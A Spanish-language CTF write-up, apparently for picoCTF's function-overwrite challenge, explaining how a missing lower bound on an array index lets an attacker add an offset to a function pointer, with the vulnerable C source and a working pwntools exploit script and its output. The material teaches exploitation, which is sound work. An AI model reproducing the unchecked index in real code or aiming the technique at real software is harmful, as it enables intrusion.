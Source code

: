 En este ejercicio nos dan un binario y su código fuente.

```c
Arch:     i386
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

El ejercicio nos pide una historia y después pide 2 números:

```c
./vuln                         
Tell me a story and then I'll tell you if you're a 1337 >> blablabla
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
5
6
You've failed this class.   
```

Vamos a ver un poco el código:

```c
void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
```

Si nos fijamos en esa función podemos ver que:

* Nuestra historia se guarda en la variable `story`
* Nuestros números se guardan en `num1` y `num2`
* Hay un chequeo que comprueba si `num1` es menor a 10 y, si es así, suma el elemento `num1` del array `fun` al valor de `num2`
* Se llama a la función `check`

Como podemos ver el programa nos da el poder de controlar un índice, y peor aún, nos deja cambiar el contenido de ese elemento. Para rematar esto, aunque haya un chequeo de máximo, no hay un chequeo mínimo, lo que nos permite introducir un numero negativos.

Que pasa si hacemos por ejemplo un `fun[-4] += 10`? Le sumaremos `10` al valor que esté en la dirección de `fun - 16 bytes`.

Entonces, **como `check` es un puntero a función guardado en memoria**, y el código realiza una operación de suma con `+=`, podemos **sumar un valor a la dirección actual de `check`** para redirigir el flujo de ejecución.

```c
void (*check)(char*, size_t) = hard_checker;
```

En lugar de escribir directamente la dirección de la función `easy_checker`, **calculamos la diferencia entre `easy_checker` y `hard_checker`**, y sumamos ese valor a `check`. De este modo, `check` termina apuntando a `easy_checker`.

Luego, cuando se llama a `check(story, strlen(story))`, se ejecuta `easy_checker`, que nos da la flag si el contenido de `story` suma 1337 en hexadecimal (es decir, la suma de los valores ASCII de los caracteres que contiene).

```c
void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}
```

Vamos a hacer el script:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("saturn.picoctf.net", 53697)

def main():
    io = conn()

    story = "A" * 19 + "15"
    info(f'Suma Story: {sum(ord(c) for c in story)}')
    
    num1 = (exe.symbols["fun"] - exe.symbols["check"]) // 4
    info(f'Num1: {num1}')
    
    num2 = exe.symbols.easy_checker - exe.symbols.hard_checker
    info(f'Num2: {hex(num2)}')
    
    io.sendlineafter(b'>> ', story)
    io.sendlineafter(b'.', f'{num1}'.encode())
    io.recvline()
    io.sendline(str(num2))
    io.interactive()

if __name__ == "__main__":
    main()

```

Vamos a probarlo:

```c
[+] Opening connection to saturn.picoctf.net on port 61719: Done
[*] Suma Story: 1337
[*] Num1: -16
[*] Num2: -0x13a
/home/ub1cu0/Desktop/picoCTF/function_overwrite/solve.py:35: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b'>> ', story)
/home/ub1cu0/Desktop/picoCTF/function_overwrite/solve.py:38: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(num2))
[*] Switching to interactive mode
You're 1337. Here's the flag.
picoCTF{SECRETO}
[*] Got EOF while reading in interactive
```

Tenemos la flag!
